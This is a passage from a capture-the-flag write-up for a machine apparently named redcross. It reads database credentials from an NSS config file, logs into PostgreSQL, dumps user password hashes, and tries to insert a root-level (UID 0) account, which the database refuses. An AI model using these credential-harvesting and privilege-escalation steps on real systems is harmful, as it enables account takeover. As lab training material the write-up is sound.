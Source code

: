 The NSS plugin is installed, so SSH can authenticate users from the postgresql database instead of `/etc/passwd`

```console
$ cat nss-pgsql.conf
connectionstring        = hostaddr=127.0.0.1 dbname=unix user=unixnss password=fios@ew023xnw connect_timeout=1
```

We can't read the other file though...

```console
$ cat nss-pgsql-root.conf
cat: nss-pgsql-root.conf: Permission denied
```

With the credentials we can poke inside the database:

```
penelope@redcross:/etc$ psql -h 127.0.0.1 -U unixnss -W unix
psql -h 127.0.0.1 -U unixnss -W unix
Password for user unixnss: fios@ew023xnw

psql (9.6.7)
SSL connection (protocol: TLSv1.2, cipher: ECDHE-RSA-AES256-GCM-SHA384, bits: 256, compression: off)
Type "help" for help.

unix=> \d
\d
              List of relations
 Schema |     Name     |   Type   |  Owner   
--------+--------------+----------+----------
 public | group_id     | sequence | postgres
 public | group_table  | table    | postgres
 public | passwd_table | table    | postgres
 public | shadow_table | table    | postgres
 public | user_id      | sequence | postgres
 public | usergroups   | table    | postgres
(6 rows)
```

Here we can see the user table in which the user we created resides:

```
unix=> select * from passwd_table;
select * from passwd_table;
 username |               passwd               | uid  | gid  | gecos |    homedir     |   shell   
----------+------------------------------------+------+------+-------+----------------+-----------
 tricia   | $1$WFsH/kvS$5gAjMYSvbpZFNu//uMPmp. | 2018 | 1001 |       | /var/jail/home | /bin/bash
 snowscan | $1$ANxI97CM$noo3OJtS7FevXzzfR//ih0 | 2020 | 1001 |       | /var/jail/home | /bin/bash
(2 rows)
```

We'll try adding a new user with password `yolo1234` and set it's UID and GID to 0:

```
unix=> insert into passwd_table (username, passwd, uid, gid, homedir) values ('snowscan','$6$oTkOZvSm$T5279pL/85f822ryylJBp0kHgGRoELCHb4OOBtwmkWWxZ6re/Vlxx6UAzEdZxhzd/MbSyjR5Kp1x4rtNCgHsJ1',0,0,'/root');
ERROR:  permission denied for relation passwd_table
```
